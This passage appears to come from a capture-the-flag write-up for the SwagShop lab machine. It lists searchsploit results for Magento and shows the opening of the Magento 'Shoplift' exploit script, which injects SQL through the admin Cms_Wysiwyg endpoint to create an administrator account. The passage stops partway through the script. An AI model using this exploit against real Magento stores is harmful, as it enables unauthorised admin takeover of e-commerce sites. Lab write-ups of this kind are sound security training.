 ```bash
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
eBay Magento 1.9.2.1 - PHP FPM XML eXternal Enti | php/webapps/38573.txt
eBay Magento CE 1.9.2.1 - Unrestricted Cron Scri | php/webapps/38651.txt
Magento 1.2 - '/app/code/core/Mage/Admin/Model/S | php/webapps/32808.txt
Magento 1.2 - '/app/code/core/Mage/Adminhtml/con | php/webapps/32809.txt
Magento 1.2 - 'downloader/index.php' Cross-Site  | php/webapps/32810.txt
Magento < 2.0.6 - Arbitrary Unserialize / Arbitr | php/webapps/39838.php
Magento CE < 1.9.0.1 - (Authenticated) Remote Co | php/webapps/37811.py
Magento eCommerce - Local File Disclosure        | php/webapps/19793.txt
Magento eCommerce - Remote Code Execution        | xml/webapps/37977.py
Magento Server MAGMI Plugin - Multiple Vulnerabi | php/webapps/35996.txt
Magento Server MAGMI Plugin 0.7.17a - Remote Fil | php/webapps/35052.txt
Magento WooCommerce CardGate Payment Gateway 2.0 | php/webapps/48135.php
------------------------------------------------- ---------------------------------
```
From the technology scan we know the server is using `Magento eCommerce` and as we can't upload any file, we should use the RCE exploit:
```bash
❯ searchsploit -x xml/webapps/37977.py | head -n 20
##################################################################################################
#Exploit Title : Magento Shoplift exploit (SUPEE-5344)
#Author        : Manish Kishan Tanwar AKA error1046
#Date          : 25/08/2015
#Love to       : zero cool,Team indishell,Mannu,Viki,Hardeep Singh,Jagriti,Kishan Singh and ritu rathi
#Debugged At  : Indishell Lab(originally developed by joren)
##################################################################################################

////////////////////////
/// Overview:
////////////////////////

Magento shoplift bug originally discovered by CheckPoint team (http://blog.checkpoint.com/2015/04/20/analyzing-magento-vulnerability/)
This python script developed by joren but it was having some bug because of which it was not working properly.
If magento version is vulnerable, this script will create admin account with username forme and password forme
```
From this exploit we can obtain the following python script:
```py
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Exploits/37977.py
       │ Size: 1.6 KB
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ import requests
   2   │ import base64
   3   │ import sys
   4   │ 
   5   │ target = "http://swagshop.htb/index.php"
   6   │ 
   7   │ if not target.startswith("http"):
   8   │     target = "http://" + target
   9   │ 
  10   │ if target.endswith("/"):
  11   │     target = target[:-1]
  12   │ 
  13   │ target_url = target + "/admin/Cms_Wysiwyg/directive/index/"
  14   │ 
  15   │ q="""
  16   │ SET @SALT = 'rp';
  17   │ SET @PASS = CONCAT(MD5(CONCAT( @SALT , '{password}') ), CONCAT(':', @SALT));
```